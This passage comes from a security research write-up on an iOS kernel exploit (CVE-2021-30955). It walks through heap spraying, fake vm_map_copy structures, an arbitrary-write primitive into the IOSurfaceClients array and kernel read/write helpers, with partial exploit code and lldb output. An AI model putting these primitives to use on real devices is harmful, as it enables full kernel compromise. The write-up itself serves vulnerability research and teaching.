                        uint64_t kaddr = (uint64_t)kmsg->ool_messages[i].address;
                        printf("[i] 0x%llx\n", kaddr);
                    }
#endif
                     
                    ool_ports_buffer = (uint64_t)kmsg->ool_messages[0].address;
                    
                    // assume this scenario is true and hope for the best
                    IOSC_array = ool_ports_buffer - BIG_BUFFER_SIZE;
                    
                    // save the pipe
                    opipe[0] = pipefds[i * 2];
                    opipe[1] = pipefds[i * 2 + 1];
                    
                    pipefds[i * 2] = 0;
                    pipefds[i * 2 + 1] = 0;
                    
                    // close other pipes
                    for (int i = 0; i < N_SPRAY; i++) {
                        if (pipefds[i * 2]) close(pipefds[i * 2]);
                        if (pipefds[i * 2 + 1]) close(pipefds[i * 2 + 1]);
                    }
                    
                    printf("[+] Leaked ool ports buffer: 0x%llx\n", ool_ports_buffer);
                    printf("[+] Calculated IOSurfaceClient array address: 0x%llx\n", IOSC_array);
#if ENABLE_HELPER
                    printf("[!] orig surfClients: 0x%llx\n", surfClients);
#endif
                    ...
                    printf("[-] Exploit failed\n");
                    return;
                }
...
}
```

## 6. Second Pipe Spray and AAW to IOSurfaceClients Array

Perform the pipe spray again, approximately 900 times.

For existing pipes where the `ikm_header` and OOL port information were previously leaked, perform read/write operations to overwrite OOL descriptor address with profiled pipe buffer kernel address (`KHEAP_DATA_MAPPABLE_LOC`), which contains fake vm_map_copy structure.

Finally, overwrite one IOSurfaceClient address within IOSurfaceClients array with the same profiled pipe buffer kernel address (`KHEAP_DATA_MAPPABLE_LOC`). Internally, by calling `mach_port_destroy` at the end, Arbitrary Address Write (AAW) to IOSurfaceClients array is achieved.

I will now examine this in detail based on execution results with kernel debugging, also with XNU source code.

```cpp

#define KHEAP_DATA_MAPPABLE_LOC 0xfffffe2287d80000 // may have to be tweaked per device

void after_thread(int *pipefds) {
    // wait a little bit
    sleep(1);
    getchar();
    ...
}

void exploit() {
...
                if (*(uint32_t*)(pipe_buf + off) == 0x80000011) {
                    ...                   
                    gBuf = calloc(1, 0x4000); // need to calculate on A10+
                    memset(gBuf, 0, 0x4000);

                    pipe_count = 900;
                    pipefds = create_pipes(&pipe_count);
                    pipe_spray(pipefds, pipe_count, gBuf, 0x4000, NULL);
                    for(int i = 0; i < pipe_count; i++) {
                        read(pipefds[2 * i], gBuf, 0x4000);
                    }

#if ENABLE_HELPER
                    for(int i = 0; i < pipe_count; i++) {
                        uint64_t kspace = obtain_pipe_kaddr(pipefds[2 * i]);
                        printf("[*] kspace; Allocated pipe kaddr = 0x%llx, rfd = 0x%llx\n", kspace, pipefds[2 * i]);
                    }
#endif

                    struct vm_map_copy *copy = gBuf;
                    struct vm_map_links *entry = gBuf + 0x1000;
                    
                    copy->type = VM_MAP_COPY_ENTRY_LIST; // we need the entry list type
                    copy->c_u.hdr.nentries = 1; // doesn't really matter
                    copy->c_u.hdr.links.next = (struct vm_map_entry*)(gBuf_kspace+0x1000); // the fake entry
                    *(uint64_t*)(((uint64_t)&copy->c_u.hdr) + 0x28) = 0xffffffffbaadc0d1; // do this to skip some useless code
                    
                    fake_IOSC = gBuf + 0x2000; // fake IOSurfaceClient
                    fake_IOS = gBuf + 0x3000; // fake IOSurface
                    
                    *(uint64_t*)(fake_IOS + 0x358) = (uint64_t)(gBuf_kspace+0x2000) + 0x1000; // fake timestamp array = fake ycbcrmatrix array
                    *(uint64_t*)(fake_IOSC + 0x40) = (uint64_t)(gBuf_kspace+0x3000);
                    
                    
                    void *vm_object = gBuf + 0x3000;
                    *(uint8_t*)(vm_object + 0xa) = 0x40; // lock stuff
                    *(uint32_t*)(vm_object + 0x28) = 2; // something that needs to be 2 for it to work
                    *(uint64_t*)(vm_object + 0x48) = 0x1337; // needs to be non-zero
                    *(uint32_t*)(vm_object + 0x74) = 0x8000000; // needs to be this
                    *(uint32_t*)(vm_object + 0xa4) = 0x400; // mapping_in_progress = 1
                    
                    entry->prev = (void *)(gBuf_kspace+0x2000);
                    entry->next = (void *)(IOSC_array + surfaces[1][0] * 8);
                    *(uint64_t*)((uint64_t)entry + 0x38) = (uint64_t)(gBuf_kspace + 0x3000); // the fake vm_object
                    *(uint64_t*)((uint64_t)entry + 0x48) = 0; // needs to be 0
                    
                    printf("[*] Writing fake vm_map_copy ptr\n");
                    kmsg->ool_messages[1].address = (uint64_t)gBuf_kspace;

                    for(int i = 0; i < pipe_count; i++) {
                        ret = write(pipefds[2 * i + 1], gBuf, 0x4000-1);
                    }

                    ret = write(opipe[1], pipe_buf, KALLOC_SIZE);
                    printf("[*] Wrote fake vm_map_copy ptr, ret = 0x%x\n", ret);
                    
                    pthread_t thread;
                    pthread_create(&thread, NULL, (void*)after_thread, (void*)pipefds);
                   
                    /*
                     this will basically do:
                        entry->next->prev = entry->prev;
                        entry->prev->next = entry->next;
                     
                     and then it'll hang until mapping_in_progress is unset
                    */
                    printf("[*] Writing fake IOSurfaceClient ptr\n");
                    mach_port_destroy(mach_task_self(), dest);
                    
                    printf("[-] Exploit failed\n");
                    return;
                }
...
}
```

The execution results after enabling ENABLE_HELPER macro are as follows.

The information derived from this is:

- Overlapped ikm_header address is `0xfffffe22886d7098`.
- Profiled pipe kernel buffer address (KHEAP_DATA_MAPPABLE_LOC) is `0xfffffe2287d80000`, and its corresponding pipe read descriptor value is 0x49f.

After execution, the profiled pipe buffer address, populated with fake vm_map_copy content, would have been written in place of OOL descriptor address.

```cpp
seo@seos-Mac ~ % ./exp
...
Allocated kmsg, ikm_header = 0xfffffe22886d7098, i = 527
[+] Found ikm_header at pipe nr. 895
[+] Leaked ool ports buffer: 0xfffffe3000890000
[+] Calculated IOSurfaceClient array address: 0xfffffe3000880000
[!] orig surfClients: 0xfffffe3000880000
...
[*] kspace; Allocated pipe kaddr = 0xfffffe2287d80000, rfd = 0x49f
...

[*] Writing fake vm_map_copy ptr
[*] Wrote fake vm_map_copy ptr, ret = 0x4000
[*] Writing fake IOSurfaceClient ptr
```

Examining debugging results, one of OOL descriptor addresses is replaced with profiled pipe address (KHEAP_DATA_MAPPABLE_LOC), `0xfffffe2287d80000`.



Furthermore, upon inspecting IOSurfaceClients array at address `0xfffffe3000880000` after executing `mach_port_destroy`, it can be observed that the value 0xfffffe2287d82000 (pipe buffer address + 0x2000) has been written to 0xfffffe30008800a0, which corresponds to the IOSurfaceClient object for surfaceID 20.

Before executing `mach_port_destroy`:

```cpp
(lldb) x/32gx 0xfffffe3000880000
0xfffffe3000880000: 0x0000000000000000 0x0000000000000000
0xfffffe3000880010: 0x0000000000000000 0x0000000000000000
0xfffffe3000880020: 0x0000000000000000 0x0000000000000000
0xfffffe3000880030: 0x0000000000000000 0x0000000000000000
0xfffffe3000880040: 0x0000000000000000 0x0000000000000000
0xfffffe3000880050: 0x0000000000000000 0x0000000000000000
0xfffffe3000880060: 0x0000000000000000 0x0000000000000000
0xfffffe3000880070: 0x0000000000000000 0x0000000000000000
0xfffffe3000880080: 0x0000000000000000 0x0000000000000000
0xfffffe3000880090: 0x0000000000000000 0x0000000000000000
0xfffffe30008800a0: 0xfffffe1514cb6bc0(WILL BE MODIFIED) 0xfffffe1514cb6c60
0xfffffe30008800b0: 0xfffffe1514cb6d00 0xfffffe1514cb6da0
0xfffffe30008800c0: 0xfffffe1514cb6e40 0xfffffe1514cb6ee0
0xfffffe30008800d0: 0xfffffe1514cb6f80 0xfffffe1514cb7020
0xfffffe30008800e0: 0xfffffe1514cb70c0 0xfffffe1514cb7160
0xfffffe30008800f0: 0xfffffe1514cb7200 0xfffffe1514cb72a0
```

After executing `mach_port_destroy`:

```cpp
(lldb) x/32gx 0xfffffe3000880000
0xfffffe3000880000: 0x0000000000000000 0x0000000000000000
0xfffffe3000880010: 0x0000000000000000 0x0000000000000000
0xfffffe3000880020: 0x0000000000000000 0x0000000000000000
0xfffffe3000880030: 0x0000000000000000 0x0000000000000000
0xfffffe3000880040: 0x0000000000000000 0x0000000000000000
0xfffffe3000880050: 0x0000000000000000 0x0000000000000000
0xfffffe3000880060: 0x0000000000000000 0x0000000000000000
0xfffffe3000880070: 0x0000000000000000 0x0000000000000000
0xfffffe3000880080: 0x0000000000000000 0x0000000000000000
0xfffffe3000880090: 0x0000000000000000 0x0000000000000000
0xfffffe30008800a0: 0xfffffe2287d82000(HAS BEEN MODIFIED) 0xfffffe1514cb6c60
0xfffffe30008800b0: 0xfffffe1514cb6d00 0xfffffe1514cb6da0
0xfffffe30008800c0: 0xfffffe1514cb6e40 0xfffffe1514cb6ee0
0xfffffe30008800d0: 0xfffffe1514cb6f80 0xfffffe1514cb7020
0xfffffe30008800e0: 0xfffffe1514cb70c0 0xfffffe1514cb7160
0xfffffe30008800f0: 0xfffffe1514cb7200 0xfffffe1514cb72a0
```

How is Arbitrary Address Write (AAW) to `IOSurfaceClients` array possible?

The short answer is that `_vm_map_entry_unlink_ll` is invoked internally based on the contents of fake `vm_map_copy`. It is within this function that arbitrary address write is performed.

The call stack is as follows:

`mach_port_destroy`
→ `ipc_right_destroy`
→ `ipc_port_destroy`
→ `ipc_kmsg_reap_delayed`
→ `ipc_kmsg_clean`
→ `ipc_kmsg_clean_body`
→ `vm_map_copy_discard`
→ `vm_map_copy_entry_unlink`
→ `_vm_map_store_entry_unlink`
→ `vm_map_store_entry_unlink_ll`
→ `_vm_map_entry_unlink_ll` 


Regarding creation of Fake data, the key details are as follows:

1. Fake vm_map_copy content:
- type = VM_MAP_COPY_ENTRY_LIST

Required for AAW to ensure `vm_map_copy_entry_unlink` is called internally when performing `vm_map_copy_discard`.

- c_u.hdr.links.next = (profiled pipe buffer kernel address +0x1000)
- c_u.hdr.nentries = 1
- c_u.hdr.rb_head_store.rbh_root = 0xFFFFFFFFBAADC0D1

Writing the value 0xFFFFFFFFBAADC0D1 (SKIP_RB_TREE) prevents the call to `vm_map_store_entry_unlink`.

1. Fake vm_map_entry(= fake vm_map_copy’s c_u.hdr.links.next) content:
- links.prev = (profiled pipe buffer kernel address +0x2000)
- links.next = The location corresponding to `IOSurfaceClient` object with surfaceID 20 within `IOSurfaceClients` array.

Required to write the value (profiled pipe buffer kernel address + 0x2000) to location corresponding to `IOSurfaceClient` object.

- vme_object.vmo_object / vme_object.vmo_submap =  (profiled pipe buffer kernel address +0x3000)

1. Fake vm_object(= fake vm_map_entry’s vme_object.vmo_object) content:
- Lock.word.can_sleep = 1

Required to prevent "Taking non-sleepable RW lock with preemption enabled" panic.

- ref_count = 2
- named = 1

Required to satisfy condition `if((object->ref_count == 2) && (object->named)) {` in `vm_object_deallocate` (xnu-8019.41.5/osfmk/vm/vm_object.c:768).

- pager = 0x1337

Required to satisfy condition `if (pager != MEMORY_OBJECT_NULL) {` in `vm_object_deallocate` (xnu-8019.41.5/osfmk/vm/vm_object.c:774)

- all_wanted = 8

(Not entirely sure why it was set to 8...)

- mapping_in_progress = 1

The reason for setting `mapping_in_progress` is to cause infinite wait in `vm_object_deallocate` → `vm_mapping_object_wait` after returning from `vm_map_copy_entry_unlink`, which is performed for AAW within `vm_map_copy_discard`.



The following diagram illustrates the configuration of Fake data 
and how Arbitrary Address Write (AAW) is achieved.


## **7. Finding pipe descriptor to be used for IOSurface kernel read/write**

In `after_thread`, wait sufficiently (for about 1 second) until the 6th step, "AAW to  IOSurfaceClients array," is complete.

Update the buffer contents using descriptor values stored in `pipefds` array which has been done at second pipe spray.

Then, when  `IOSurfaceRootUserClient::s_get_ycbcrmatrix` selector is called, the pipe descriptor value located at specific offset within pipe buffer is read, allowing you to identify which pipe is being used for IOSurface kernel read/write.

After identifying, restore IOSurface object to point to (profiled pipe buffer kernel address + 0x3000).

```cpp
// how many pipes to spray
#define N_SPRAY 900

void after_thread(int *pipefds) {
    // wait a little bit
    sleep(1);

    // which pipefd are we using on?
    int pipe_count = N_SPRAY;
    for(int i = 0; i < pipe_count; i++) {
        read(pipefds[2 * i], gBuf, 0x4000);
        *(uint64_t*)((gBuf + 0x2000) + 0x40) = (gBuf_kspace + 0x4000-0x10) - 0xb4;  //gBuf + 0x2000 = fake_IOSC; will read from (gBuf_kspace + 0x4000-0x10)
        *(uint16_t *)(gBuf + 0x4000 - 0x10) = pipefds[2 * i];   //to determine which pipefd will be used for krw
        *(uint16_t *)(gBuf + 0x4000 - 0x10 + 2) = pipefds[2 * i + 1];   //to determine which pipefd will be used for krw
        write(pipefds[2 * i + 1], gBuf, 0x4000-1);
    }
    uint32_t pipefd_leak;
    int ret = IOSurface_get_ycbcrmatrix(IOSRUC[1], surfaces[1][0], &pipefd_leak);
    rfd = pipefd_leak & 0xffff;
    wfd = (pipefd_leak >> 16) & 0xFFFF;
    printf("[i] pipefd_leak = 0x%x, rfd = 0x%x, wfd = 0x%x\n", pipefd_leak, rfd, wfd);
    getchar();

    //restore
    for(int i = 0; i < pipe_count; i++) {
        read(pipefds[2 * i], gBuf, 0x4000);
        *(uint64_t*)((gBuf + 0x2000) + 0x40) = (uint64_t)(gBuf_kspace+0x3000);
        write(pipefds[2 * i + 1], gBuf, 0x4000-1);
    }
    ...
}

void exploit() {
                    ...   
                    struct vm_map_copy *copy = gBuf;     
                    ...
                    
                    fake_IOSC = gBuf + 0x2000; // fake IOSurfaceClient
                    fake_IOS = gBuf + 0x3000; // fake IOSurface
                    
                    *(uint64_t*)(fake_IOS + 0x358) = (uint64_t)(gBuf_kspace+0x2000) + 0x1000; // fake timestamp array = fake ycbcrmatrix array
                    *(uint64_t*)(fake_IOSC + 0x40) = (uint64_t)(gBuf_kspace+0x3000);                            
                    ...
                    printf("[*] Wrote fake IOSurfaceClient ptr\n");
                    mach_port_destroy(mach_task_self(), dest);
                    ...
}
```

For easier understanding, this is illustrated in the diagram below.

By controlling the contents of single IOSurfaceClient object through pipe read/write operations,  IOSurface located at offset +0x40 can also be easily controlled.

The pipe file descriptor value recorded at IOSurface_obj+0xb4 can be read by calling  `IOSurfaceRootUserClient::s_get_ycbcrmatrix` selector.



## 8. Kernel read/write

For kernel writes, `IOSurfaceRootUserClient::s_set_indexed_timestamp` selector is used, 
and for kernel reads, `IOSurfaceRootUserClient::s_get_ycbcrmatrix` selector is used.

Similarly, by controlling the contents of  IOSurfaceClient object through pipe read/write operations, the contents of IOSurface object pointed to by that client object can also be controlled.

An arbitrary value, 0x4142434445464748, is written to kernel address KHEAP_DATA_MAPPABLE_LOC+0x4000-0x20 (i.e., 0xfffffe2287d83fe0). If reading from that address subsequently returns value 0x4142434445464748, it confirms that kernel read/write primitives have been successfully achieved.

```cpp
>>> hex(0xfffffe2287d80000 + 0x4000 - 0x20)
'0xfffffe2287d83fe0'
```

```cpp
void after_thread(int *pipefds) {
    ...

    uint64_t kptr = KHEAP_DATA_MAPPABLE_LOC + 0x4000 - 0x20;
    wk64(kptr, 0x4142434445464748);
    printf("[i] Wrote: 0x%llx\n", 0x4142434445464748);
    printf("[i] Read back: 0x%llx -> 0x%llx\n", kptr, rk64(kptr));
    printf("[i] Unfortunately, there's no cleanup for this exploit...\n");
    printf("[i] anyway done, spinning here!\n\n");
    while(1) {};
}

// these are racy, should put locks, but this is just an exploit, so idc
uint32_t rk32(uint64_t addr) {
    read(rfd, gBuf, 0x4000);
    *(uint64_t*)(fake_IOSC + 0x40) = addr - 0xb4;
    write(wfd, gBuf, 0x4000-1);

    uint32_t val;
    int ret = IOSurface_get_ycbcrmatrix(IOSRUC[1], surfaces[1][0], &val);

    read(rfd, gBuf, 0x4000);
    *(uint64_t*)(fake_IOSC + 0x40) = (uint64_t)fake_IOS;
    write(wfd, gBuf, 0x4000-1);
    
    if (ret) {
        printf("[-][rk32] Error get_ycbcrmatrix: %s\n", mach_error_string(ret));
        return 0;
    }
    return val;
}

uint64_t rk64(uint64_t addr) {
    uint32_t val1 = rk32(addr);
    uint64_t val2 = rk32(addr + 4);
    uint64_t val64 = val1 | (val2 << 32);
    return val64;
}

int wk64(uint64_t addr, uint64_t what) {
    read(rfd, gBuf, 0x4000);
    *(uint64_t*)(fake_IOS + 0x358) = addr;
    write(wfd, gBuf, 0x4000-1);

    int ret = IOSurface_set_indexed_timestamp(IOSRUC[1], surfaces[1][0], 0, what);

    read(rfd, gBuf, 0x4000);
    *(uint64_t*)(fake_IOS + 0x358) = (uint64_t)fake_IOS + 0x1000;
    write(wfd, gBuf, 0x4000-1);

    if (ret) {
        printf("[-][wk64] Error set_indexed_timestamp: %s\n", mach_error_string(ret));
        return ret;
    }
    return 0;
}

void exploit() {
                    ...   
                    struct vm_map_copy *copy = gBuf;     
                    ...
                    
                    fake_IOSC = gBuf + 0x2000; // fake IOSurfaceClient
                    fake_IOS = gBuf + 0x3000; // fake IOSurface
                    
                    *(uint64_t*)(fake_IOS + 0x358) = (uint64_t)(gBuf_kspace+0x2000) + 0x1000; // fake timestamp array = fake ycbcrmatrix array
                    *(uint64_t*)(fake_IOSC + 0x40) = (uint64_t)(gBuf_kspace+0x3000);                            
                    ...
                    printf("[*] Wrote fake IOSurfaceClient ptr\n");
                    mach_port_destroy(mach_task_self(), dest);
                    ...
}
```

Similarly, for understanding, here is illustrated in the diagram below.



# Regarding the exploit cleanup process…

When executing `mach_port_destroy` function, `ipc_kmsg_free` internally performs bounds checks on `kmsg->ikm_data` and `kmsg->ikm_header`.

If we clear mapping_in_progress flag (which was set in previous step 6 to trigger infinite wait in `vm_mapping_object_wait`) to allow execution to resume,  `ipc_kmsg_free` panic is triggered due to the bounds check failure.


I wondered if modifying `ikm_header` and `ikm_data` field values might resolve this. 

However, upon investigation, I realized that unfortunately, they cannot be arbitrarily modified due to PAC (Pointer Authentication Codes) signatures.




# +BONUS) multicast_bytecopy_A9

[https://github.com/wh1te4ever/multicast_bytecopy_A9](https://github.com/wh1te4ever/multicast_bytecopy_A9)

The multicast_bytecopy exploit has very low success rate on iPhone 6s devices.

During execution, this exploit sprays kernel memory with distinct types, such as KHEAP_DATA_BUFFERS / KHEAP_DEFAULT. On previously supported devices, it was possible to predict almost consistent kernel addresses for these types (refer to `KHEAP_DATA_MAPPABLE_LOC` and `KHEAP_DEFAULT_MAPPABLE_LOC` macros).

However, on iPhone 6s (one of the unsupported devices), profiling results indicated a very low probability of obtaining consistent kernel addresses.

Therefore, I improved the exploit by chaining CVE-2021-30955 vulnerability to serve as  information leak.

Since a single default.kalloc.0x4000 allocation address can be leaked, the kernel addresses for corresponding KHEAP_DATA_BUFFERS and KHEAP_DEFAULT types can be guessed with high degree of probability.

# **References and Sources**

[https://github.com/b1n4r1b01/desc_race](https://github.com/b1n4r1b01/desc_race)

[https://web.archive.org/web/20220223071138/https://www.cyberkl.com/cvelist/cvedetail/24](https://web.archive.org/web/20220223071138/https://www.cyberkl.com/cvelist/cvedetail/24)

[https://gist.github.com/jakeajames/37f72c58c775bfbdda3aa9575149a8aa](https://gist.github.com/jakeajames/37f72c58c775bfbdda3aa9575149a8aa)